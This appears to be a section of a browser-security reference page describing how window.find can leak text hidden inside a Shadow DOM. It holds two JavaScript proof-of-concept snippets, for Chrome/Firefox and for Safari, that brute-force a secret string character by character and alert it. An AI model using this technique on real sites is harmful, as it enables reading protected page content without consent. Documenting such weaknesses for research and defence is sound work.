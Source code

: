 ### Credits
[Ankur Sundara](https://blog.ankursundara.com/shadow-dom/)

## window.find
```js
// For Chrome / Firefox
result = [];
prefix = 'This is a secret: ';
chars = 'abcdef';
secretLength = 8;
while (result.length !== secretLength) {
  for (i = 0; i < chars.length; i++) {
    char = chars[i];
    if (window.find(`${prefix}${char}`)) {
      result.push(char);
      prefix += char;
      window.getSelection().removeAllRanges();
    }
  }
}
alert(result.join(''));
```
```js
// For Safari
// Click Shadow area
window.onclick = function(event) {
  if (event.target === shost && window.find("Shadow DOM", false, true) || window.find("contenteditable", false, false)) {
    result = [];
    prefix = 'This is a secret: ';
    chars = 'abcdef';
    secretLength = 8;
    while (result.length !== secretLength) {
      for (i = 0; i < chars.length; i++) {
        char = chars[i];
        if (window.find(`${prefix}${char}`, false, false) || window.find(`${prefix}${char}`, false, true)) {
          result.push(char);
          prefix += char;
          window.find("Shadow DOM", false, true);
        }
      }
    }
    alert(result.join(''));
  }
}
```
### Impact
text access
